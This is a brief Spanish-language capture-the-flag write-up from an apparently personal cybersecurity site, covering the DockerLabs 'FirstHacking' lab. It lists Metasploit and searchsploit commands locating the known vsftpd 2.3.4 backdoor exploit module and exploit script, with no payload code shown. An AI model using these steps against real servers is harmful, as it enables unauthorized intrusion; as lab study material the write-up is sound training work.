

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/dockerlabs/firsthacking/index.html · generator: mkdocs

# FirstHacking

Con METASPLOIT
`msf > search vsftpd`
`use exploit/unix/ftp/vsftpd_234_backdoor
(Sin payload)

Con `searchsploit`
`searchsploit vsftpd`
`vsftpd 2.3.4 - Backdoor Command Execution` --> `unix/remote/49757.py`
